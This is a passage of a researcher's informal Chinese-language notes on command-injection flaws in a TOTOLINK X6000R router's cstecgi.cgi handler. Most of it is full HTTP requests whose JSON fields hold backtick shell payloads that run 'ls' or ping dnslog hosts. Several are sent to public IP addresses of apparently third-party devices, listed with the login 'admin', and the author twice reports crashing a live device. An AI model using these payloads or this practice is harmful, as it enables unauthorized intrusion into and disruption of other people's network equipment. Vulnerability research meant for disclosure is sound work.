Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"`ls >/web/poc_l2tp_mru.txt`","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```


# ADVANCED-SERVICE

## 9. `/advance/upnp.html` ✔️


```
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```


```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 69
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/upnp.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 nozomizo.poc.wu09u1ut.eyes.sh`","topicurl":"setUPnPCfg"}
```


但是真找不到为啥啊。。。

哦哦哦！ 在`sub_414B14`


## `advance/remote.html` (❌)

千万打不得！！！

。。。nm，关掉直接网页都没了。。。

得重新找一个


找到了！！！

。。。

```
http://61.71.234.62:8001
admin
```

但版本不对。。。是A3300R。。。 嘛，留着后面用呗。


嘛，X6000R的CVE找到这里也够了。等后面找到环境了再报CNVD，今天先把这一大堆CVE写了~

这个X6000R漏洞太多了，倒没必要报CNVD。后面找个漏洞少的TOTOLINK来研究。


又找到一个

```
http://182.155.104.240
admin
```


# 10. `/advance/portfwd.html` ✔️

```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 94
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/portfwd.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","addEffect":"0","topicurl":"setPortForwardRules"}
```


也找不到。。。


# 11. `advance/dmz.html` ✔️


```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/dmz.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","topicurl":"setDmzCfg"}
```


# 12. `/advance/wifi_schedule.html`

what can i say :?


```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/wifi_schedule.html?token=223A30BC129975D7
Priority: u=1

{"wifiIdx":"0","enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```


# 13. `/advance/ipv6.html` （❌）

```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/ipv6.html?token=223A30BC129975D7
Priority: u=1

{"service":"`ping -c 2 poc.wuxln8i9.eyes.sh`","topicurl":"setIpv6Cfg"}
```


。。。

沃日。。。打这个又打炸了。。。woc。。。

。。。

打不得。。。


下次都用curl dnslog验证了。。。😓


报CNVD就以html为单位报，不水个数😄


---

不挖了。赶紧把录屏录了，然后找找漏洞点。

新挖的还可以报CVE~
